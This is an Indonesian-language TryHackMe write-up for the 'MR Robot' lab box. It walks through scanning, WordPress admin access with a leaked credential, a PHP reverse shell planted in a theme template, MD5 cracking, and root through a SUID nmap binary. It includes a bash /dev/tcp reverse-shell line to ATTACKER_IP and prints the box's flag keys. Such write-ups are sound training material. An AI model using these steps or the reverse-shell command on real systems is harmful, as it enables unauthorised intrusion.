









# MR Robot --- TryHackMe Writeup

**Target:** MR Robot\
**Platform:** TryHackMe\
**Difficulty:** Medium\
**Kategori:** Web, WordPress, Credential Exposure, MD5 Cracking, SUID, Nmap

-------

## Recon

Seperti biasa dimulai dari Rustscan untuk scan port dan Nmap untuk
enumerasi service.

``` bash
rustscan -b 2000 --scripts none -t 5000 -a TARRGET_IP
```

``` bash
nmap -sC -sV -p22,80,443 -T4 TARGET_IP
```



Ada 3 port yang terbuka. Saya coba cek website-nya.

-------

## Web Enumeration



Saat saya coba memasukkan directory secara asal, terdapat error message
yang menunjukkan bahwa website ini menggunakan WordPress.



Di sini saya coba menggunakan ffuf untuk mencari hidden endpoint.

``` bash
ffuf -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://TARGET_IP/FUZZ
```



Karena hasilnya terlalu noisy, saya coba jalankan ulang dengan tambahan
flag `-mc 200` dan `-ac`.

``` bash
ffuf -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://TARGET_IP/FUZZ -mc 200 -ac
```



Dari hasil di atas, yang langsung menarik perhatian adalah:

``` text
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 92ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 90ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 424ms]
```

Saat dicek satu per satu, hasilnya:

`readme`:

``` text
I like where you head is at. However I'm not going to help you.
```

`license`:

``` text
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

String terakhir terlihat seperti Base64. Setelah di-decode:

``` text
elliot:ER28-0652
```

Dari sini saya mendapatkan credential:

``` text
elliot:ER28-0652
```

Selanjutnya saya cek `robots`:

``` text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Dari `/robots` saya mendapatkan `fsocity.dic` sebagai wordlist dan
`key-1-of-3.txt`.

Isi `key-1-of-3.txt`:

``` text
073403c8a58a1f80d943455fb30724b9
```

Jadi saya mendapatkan credential Elliot, sebuah wordlist, dan key
pertama. Di sini saya masih belum tahu tujuan dari wordlist tersebut.

-------

## Initial Foothold --- WordPress

Saya coba menggunakan credential tersebut untuk login SSH, tetapi gagal.

Kemudian saya coba menggunakan credential yang sama untuk login sebagai
admin WordPress dan ternyata berhasil.



Setelah melihat-lihat dashboard, saya menemukan page untuk mengedit
theme. Di sini saya coba memasukkan reverse shell PHP dari Pentestmonkey
untuk melakukan testing.

Template yang saya edit adalah `404.php`.



Setelah edit dan upload file, langkah selanjutnya hanya membuka page
yang memang tidak ada untuk men-trigger template `404.php`. Bisa
menggunakan `curl` ataupun browser.

Setelah template tersebut ter-trigger, saya berhasil mendapatkan reverse
shell.



-------

## Lateral Movement --- User `robot`

Setelah mendapatkan shell sebagai `daemon`, saya coba cek `/home` dan
menemukan user `robot`.

Di dalamnya terdapat:

``` text
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Isinya:

``` text
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Kemungkinan wordlist yang ditemukan di awal digunakan untuk meng-crack
hash ini.

Saya coba crack menggunakan John the Ripper dengan wordlist dari
`fsocity.dic`:

``` bash
john --format=Raw-MD5 --wordlist=fsocity.dic hash.txt
```

Namun hasilnya gagal.

Karena masih penasaran, saya coba crack hash tersebut menggunakan
CrackStation dan mendapatkan:

``` text
c3fcd3d76192e4007dfb496cca67e13b    md5    abcdefghijklmnopqrstuvwxyz
```

Password-nya:

``` text
abcdefghijklmnopqrstuvwxyz
```

Dengan password tersebut saya berhasil masuk sebagai user `robot`.

-------

## Privilege Escalation --- SUID Nmap

Setelah berhasil menjadi `robot`, saya enumerasi lebih jauh dan
menemukan:

``` text
-rwsr-xr-x 1 root root 17272 Jun  2  2025 /usr/local/bin/nmap
```

Binary Nmap tersebut memiliki SUID bit dan berjalan sebagai root.

Awalnya saya mencoba menjalankan `h` dan `!id` melalui interactive mode
Nmap, tetapi semuanya menghasilkan:

``` text
sh: ... not found
```

Karena binary Nmap tersebut berjalan sebagai SUID root, saya mencoba
mencari tahu shell yang digunakan root melalui `/etc/passwd`.

Root menggunakan `/bin/bash`, jadi saya mencoba memanggil Bash secara
eksplisit dengan:

``` bash
bash -c 'id'
```

Hasilnya menunjukkan:

``` text
uid=0(root)
```

Artinya saya berhasil mendapatkan command execution dengan privilege
root.

-------

## Root Shell

Setelah mendapatkan command execution sebagai root, saya coba reverse
shell untuk mendapatkan shell root.

Di attacker:

``` bash
nc -lvnp 9005
```

Kemudian di target:

``` bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
```

Saya berhasil mendapatkan root shell.



-------

## Keys

### Key 1

``` text
073403c8a58a1f80d943455fb30724b9
```

### Key 2

``` text
822c73956184f694993bede3eb39f959
```

### Key 3

``` text
04787ddef27c3dee1ee161b21670b4e4
```

-------

## Takeaway

Box ini menunjukkan bagaimana beberapa informasi kecil yang ditemukan
selama web enumeration dapat saling terhubung.

Credential yang ditemukan pada `license` memberikan akses ke WordPress,
sedangkan `robots.txt` memberikan wordlist dan key pertama.

Wordlist `fsocity.dic` yang awalnya belum jelas kegunaannya kemudian
menjadi relevan saat ditemukan hash MD5 milik user `robot`.

Setelah berpindah ke user `robot`, enumerasi SUID menemukan binary Nmap
yang dapat digunakan untuk mendapatkan command execution sebagai root.

-------

> **Note:** Beberapa langkah di writeup ini merupakan hasil trial and error selama mengerjakan box. Jadi jangan anggap semua percobaan yang dilakukan sebagai metode yang paling optimal.
